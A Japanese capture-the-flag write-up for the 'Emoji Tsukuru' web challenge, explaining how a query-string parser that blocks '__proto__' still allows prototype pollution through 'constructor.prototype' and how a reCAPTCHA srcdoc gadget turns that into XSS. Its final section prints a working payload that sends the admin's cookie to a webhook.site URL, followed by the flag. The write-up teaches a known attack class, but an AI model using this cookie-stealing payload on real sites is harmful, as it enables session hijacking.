



# [Web] Emoji Tsukuru
> 絵文字を作りましょう。
> 
> ---
> 
> Let's make emojis.

与えられたURLにアクセスしてみると、以下のように絵文字を作成できるツールが表示されます。



`Save image` というボタンを押すと画像をPNG形式で保存できます。`Get URL to share` というボタンを押すと `http://localhost:54321?text0.x=83&text0.y=161&text0.size=64&…` というようなURLが表示されます。このURLを保存しておくことで、後で作成した絵文字の編集を再開できるようにするというものです。

そして、`Save with admin` というボタンを押すと、作成した絵文字をadminに共有することができます。

## ソースコードを読む
与えられたソースコードのうち、`server` ディレクトリはWebサーバの処理が、`worker` ディレクトリはadminがメモを見に来る際の処理が置かれています。まずは後者から見ていきましょう。

`worker/index.js` は以下のようなコードになっています。Osoraku Secure Noteと同様に、Cookieに `flag` というキーでフラグを設定した後に、共有された絵文字を閲覧するという処理になっています。

```javascript
const crawl = async (texts) => {
  const url = BASE_URL + '?' + texts;
  console.log(`[+] Crawling started: ${url}`);

  const browser = await puppeteer.launch(browser_option);

  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
    await page.goto(url, {
      waitUntil: 'networkidle0',
      timeout: 3 * 1000,
    });
  } catch (e) {
    console.log('[-]', e);
  } finally {
    await page.close();
  }

  await browser.close();
};
```

Webサーバのクライアント側のソースコードを読みます。`Get URL to share` で生成されたURLを見るとGETパラメータに絵文字の情報(色やテキストなど)が含まれていることがわかりますが、それらの情報は以下の `newTextMenu` という関数によって(画面の右側に表示されるような) `input` や `textarea` といった入力フォームに入力値として設定されています。

ここでは `innerHTML` が使われており一見XSSができそうに思えますが、残念ながら代入される文字列中の `${i}` はユーザからは操作できません。また、入力値の設定は `innerHTML` を使わず行われており、ここではXSSができなさそうです。

```javascript
// sorry for the ugly code!
function newTextMenu(i, text) {
  const div = document.createElement('div');
  div.innerHTML = `<h2>Text ${i}</h2>
  <div>
    <label>X: <input type="number" name="x" min="8" max="256" value="48"></label>
  </div>
  <div>
    <label>Y: <input type="number" name="y" min="8" max="256" value="160"></label>
  </div>
  <div>
    <label>Size: <input type="number" name="size" min="8" max="256" value="128"></label>
  </div>
  <div>
    <label>Color: <input type="color" name="color" value="#c13333"></label>
  </div>
  <div>
    <label for="text">Text:</label>
    <textarea name="text" cols="6" rows="5">:D</textarea>
  </div>
</div>`;

  [...div.querySelectorAll('input, textarea')].forEach(e => {
    e.value = text[e.name];
    e.addEventListener('change', () => {
      text[e.name] = e.value;
      render();
    }, false);
  });

  return div;
}
```

ほかに脆弱性がないか探していると、`parseQueryString` という関数が目に付きます。これは `?text0.a.b=123` のような複雑なGETパラメータを `{"text0":{"a":{"b":"123"}}}` のようなオブジェクトにパースするものです。

`__proto__` というプロパティ名が含まれていれば、その場で例外を発生させています。コメントによればPrototype Pollutionなる脆弱性を防ぐためとしていますが、どういうことでしょうか。

```javascript
// since query string is complex like `?text0.size=...`, 
// I need to implement a parser instead of using URLSearchParams...
function parseQueryString(query) {
  let res = {};

  for (const param of query.split('&')) {
    const [key, value] = param.split('=');
    const parts = key.split('.');

    let tmp = res;
    for (const part of parts.slice(0, -1)) {
      // I know there is a vulnerability called Prototype Pollution :)
      // so if suspicious property is found, raise an error
      if (part === '__proto__') {
        throw new Error('HACKING ATTEMPT DETECTED!');
      }

      if (!(part in tmp)) {
        tmp[part] = {};
      }
      tmp = tmp[part];
    }

    tmp[parts[parts.length - 1]] = decodeURIComponent(value);
  }
  
  return res;
}
```

## Prototype Pollutionとは
### プロトタイプチェーン
JavaScriptにはプロトタイプチェーンという仕組みがあります。詳しい説明は割愛しますが([MDNのページ](https://developer.mozilla.org/ja/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)などを参照ください)、例えば以下のようなJavaScriptコードがあった場合、最終行のように `obj.abc` にアクセスしようとすると `obj.abc` → `B.prototype.abc` → `A.prototype.abc` → `Object.prototype.abc` という順番で捜索していき、もしどこかでプロパティが見つかればそれを返します。

```javascript
class A {}
class B extends A {}

const obj = new B;
console.log(obj.abc);
```

そのため、以下のように `Object.prototype.abc` に値を設定しておくと、`obj` 自身は `abc` というプロパティを持っていなくても `obj.abc` は `Object.prototype.abc` の値を返します。

```javascript
Object.prototype.abc = 123;
console.log(obj.abc); // => 123
```

### Prototype Pollution
ECMAScriptの仕様には含まれていませんが、(Google Chromeを含む)多くのWebブラウザが実装している機能に [`Object.prototype.__proto__`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Object/proto) があります。上記の例では `obj.__proto__` は `B.prototype` ですし、`obj.__proto__.__proto__` は `A.prototype`、`obj.__proto__.__proto__.__proto__` は `Object.prototype` と、`__proto__` を使うことでプロパティのアクセス時に捜索されるオブジェクトにアクセスできます。

`parseQueryString` では、`a.b.c=hoge` というような文字列が与えられると `res.a={}`, `res.a.b={}`, `res.a.b.c='hoge'` と再帰的に代入する処理が行わます。もし `__proto__` というプロパティへのアクセスも許可すると、例えば `a.__proto__.b='fuga'` という文字列を与えると、これは `Object.prototype.b='abc'` に相当する処理が行われることになります。このような脆弱性をPrototype Pollutionと呼びます。

`__proto__` さえ塞げばPrototype Pollutionを防止できるかというと、[まったくそんなことはありません](https://knqyf263.hatenablog.com/entry/2020/08/09/234544)。`{}` というオブジェクトがあるとして、その `constructor` プロパティには `Object` が入っています。`({}).constructor.prototype` で `Object.prototype` にアクセスできてしまいます。

`parseQueryString` では `constructor` や `prototype` についてはチェックされていません。したがって、`a.constructor.prototype.abc=123` というような文字列を渡すと、`Object.prototype.abc='123'` 相当のことができるということになります。

## Prototype Pollutionを利用する
さて、このようにPrototype Pollutionができたところで、どう活用できるのでしょうか。活用方法のひとつに、Webアプリケーションで読み込まれているライブラリを把握し、それらに存在しているscript gadgetを使ってXSSに持ち込むというものがあります。

ライブラリの中には、もしPrototype PollutionがあればXSSやらなんやらに持ち込めてしまうような処理を含んでいるものもあります。このようなコードをscript gadgetと呼んだりします。

世の中には [`BlackFan/client-side-prototype-pollution`](https://github.com/BlackFan/client-side-prototype-pollution) という大変便利なリポジトリがあり、ここにはjQuery, Lodash, Google Closureなど様々なライブラリに存在しているgadgetがまとめられています。この問題で使われているライブラリに既知のgadgetがあるものがないか探してみると、(adminへの絵文字の共有時に使われる)[Google reCAPTCHA](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/recaptcha.md)が見つかりました。

これは `Object.prototype.srcdoc` に文字列を代入しておくと、Webアプリケーションに以下のような `iframe` が挿入されるときに、その `srcdoc` 属性として設定されてしまうというgadgetです。`<script>alert(123)</script>` のように `script` 要素を使えば、JavaScriptコードを実行させられます。



試しに `/?a.constructor.prototype.srcdoc=<script>alert(123)</script>` にアクセスしてみるとプロンプトが表示され、`alert(123)` というJavaScriptコードが実行されたことが確認できました。

## フラグを得る
adminのCookieを盗み出しましょう。DevToolsで以下のJavaScriptコードを実行しておき、`Share width admin!` を押すとadminにペイロードを含んだURLを共有するようにします。

```javascript
async function onSubmit(token) {
  const button = document.getElementById('report');

  const result = await (await fetch('/report', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      texts: `a.constructor.prototype.srcdoc=<script>navigator.sendBeacon('https://webhook.site/…',document.cookie)</script>`,
      token
    })
  })).text();
  button.textContent = result;
}
```

`Share width admin!` を押すと、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。



```
HarekazeCTF{pr0t0type_p0llut10n_1s_0ne_0f_my_f4v0r1te_vulner4b1l1t1es}
```